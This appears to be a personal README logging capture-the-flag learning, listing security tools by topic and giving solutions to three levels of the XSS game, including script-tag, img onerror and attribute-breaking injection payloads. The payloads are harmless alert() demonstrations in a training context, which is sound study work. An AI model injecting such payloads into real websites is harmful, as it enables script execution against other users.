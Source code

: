 # My CTF Journey

Welcome to my Capture The Flag (CTF) learning journey! Here, I document the challenges I've solved and the skills I've gained in the world of cybersecurity.


## Network Security

### CTF 1

**Tools:**
- Nmap
- Wireshark
- Metasploit

**Knowledge Base:**
[Link to Network Security Knowledge Base](#)

---

## Web Application Security
### XSS
##### CTF 1 : [XSS-GAMES.APPSPOT](https://medium.com/@onehackman/learning-xss-part-1-reflected-xss-brief-concept-techniques-challenge-walkthrough-85f6b165541b)
**Level 1**
```javascript
<script>alert()</script>
```

**Level 2**
```javascript
<img src=x onerror=alert(1)>
```

**Level 3**
```javascript
https://xss-game.appspot.com/level3/frame#23' onerror=alert()>
```

```javascript
23' onerror=alert()>
```

##### CTF 2
**Tools:**
- Burp Suite
- OWASP Zap
- SQLMap

**Knowledge Base:**
[Link to Web Application Security Knowledge Base](#)

---

## Cryptocurrency Security

### CTF 3

**Tools:**
- Ganache
- Remix IDE
- MythX

**Knowledge Base:**
[Link to Cryptocurrency Security Knowledge Base](#)

